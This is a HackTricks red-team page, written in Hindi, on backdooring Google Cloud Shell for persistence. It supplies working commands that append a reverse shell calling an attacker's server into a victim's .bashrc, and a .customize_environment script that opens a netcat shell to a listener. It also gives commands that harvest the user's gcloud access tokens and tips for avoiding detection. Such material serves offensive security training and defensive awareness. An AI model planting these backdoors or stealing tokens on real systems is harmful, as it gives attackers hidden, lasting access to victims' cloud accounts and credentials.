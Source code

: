 # GCP - क्लाउड शेल पर्सिस्टेंस

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## क्लाउड शेल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### पर्सिस्टेंट बैकडोर

[**Google क्लाउड शेल**](https://cloud.google.com/shell/) आपको बिना किसी जुड़े हुए लागत के अपने ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड-लाइन एक्सेस प्रदान करता है।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google के क्लाउड शेल तक पहुँच सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **Google क्लाउड तक पहुँच वाले किसी भी Google उपयोगकर्ता** के पास पूरी तरह से प्रमाणित क्लाउड शेल इंस्टेंस तक पहुँच होती है (सेवा खाते भी, यहाँ तक कि वे संगठन के मालिक हों)।
2. उक्त इंस्टेंस अपनी होम डायरेक्टरी को कम से कम 120 दिनों तक बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. उस इंस्टेंस की गतिविधि की निगरानी करने के लिए संगठन के पास **कोई क्षमता नहीं है**।

इसका मूल रूप से यह मतलब है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर डाल सकता है और जब तक उपयोगकर्ता हर 120 दिनों में कम से कम एक बार GC शेल से जुड़ता है, बैकडोर जीवित रहेगा और हमलावर को हर बार जब यह चलाया जाता है तो एक शेल मिलेगा बस यह करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फोल्डर में एक और फाइल है जिसका नाम **`.customize_environment`** है, जो अगर मौजूद है, तो वह **हर बार निष्पादित की जाएगी** जब भी उपयोगकर्ता **cloud shell** तक पहुँचता है (पिछली तकनीक की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक बैकडोर डालें ताकि जब तक उपयोगकर्ता "अक्सर" cloud shell का उपयोग करता है, तब तक पर्सिस्टेंस बनाए रखें:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
ध्यान दें कि **पहली बार जब GCP क्रिया Cloud Shell में प्रमाणीकरण की आवश्यकता वाली होती है**, तो यह उपयोगकर्ता के ब्राउज़र में एक प्राधिकरण विंडो **पॉप अप** करती है जिसे कमांड चलाने से पहले स्वीकार करना पड़ता है। अगर अप्रत्याशित पॉप-अप आता है, तो लक्ष्य संदिग्ध हो सकता है और पर्सिस्टेंस विधि को नष्ट कर सकता है।

यह पॉप-अप है जो `gcloud projects list` को क्लाउड शेल से निष्पादित करने पर आता है (हमलावर के रूप में) जिसे ब्राउज़र के उपयोगकर्ता सत्र में देखा जा सकता है।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से क्लाउडशेल का उपयोग किया है, तो पॉप-अप प्रदर्शित नहीं होगा और आप **उपयोगकर्ता के टोकन एकत्र कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

मूल रूप से, ये 3 API कॉल्स का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (आपको अपनी स्थानीय रूप से बनाई गई पब्लिक की जोड़ने की अनुमति देगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (आपको इंस्टेंस शुरू करने की अनुमति देगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप अधिक जानकारी [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) पर पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>

